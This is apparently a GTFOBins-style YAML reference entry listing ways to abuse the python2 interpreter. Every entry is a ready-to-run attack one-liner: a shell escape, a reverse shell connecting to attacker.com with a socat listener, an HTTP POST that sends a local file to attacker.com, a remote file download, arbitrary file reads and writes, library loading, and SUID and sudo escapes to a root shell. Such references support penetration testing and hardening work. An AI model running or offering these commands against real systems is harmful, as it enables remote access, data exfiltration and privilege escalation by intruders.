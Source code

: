 ```yaml
---
functions:
  execute-interactive:
    - code: python2 -c 'import os; os.system("/bin/sh")'
  reverse-shell-interactive:
    - description: Run <code>socat file:`tty`,raw,echo=0 tcp-listen:12345</code> on the attacker box to receive the shell.
      code: |
        export RHOST=attacker.com
        export RPORT=12345
        python2 -c 'import sys,socket,os,pty;s=socket.socket(); s.connect((os.getenv("RHOST"),int(os.getenv("RPORT")))); [os.dup2(s.fileno(),fd) for fd in (0,1,2)]; pty.spawn("/bin/sh")'
  upload:
    - description: Send local file via "d" parameter of a HTTP POST request. Run an HTTP service on the attacker box to collect the file.
      code: |
        export URL=http://attacker.com/
        export LFILE=file_to_send
        python2 -c 'import urllib as u,urllib2 as u2,os.environ as e; u2.urlopen(u2.Request(e["URL"],u.urlencode({"d":open(e["LFILE"]).read()})))'
    - description: Serve files in the local folder running an HTTP server.
      code: |
        export LPORT=8888
        python2 -m SimpleHTTPServer $LPORT
  download:
    - description: Fetch a remote file via HTTP GET request.
      code: |
        export URL=http://attacker.com/file_to_get
        export LFILE=file_to_save
        python2 -c 'import urllib as u,os.environ as e;u.urlretrieve(e["URL"], e["LFILE"])'
  file-write:
    - code: python2 -c 'open("file_to_write","w+").write("data")'
  file-read:
    - code: python2 -c 'open("file_to_read").read()'
  load-library:
    - code: python2 -c 'from ctypes import cdll; cdll.LoadLibrary("lib.so")'
  suid-enabled:
    - code: ./python2 -c 'import os; os.system("/bin/sh -p")'
  sudo-enabled:
    - code: sudo python2 -c 'import os; os.system("/bin/sh")'
---
```

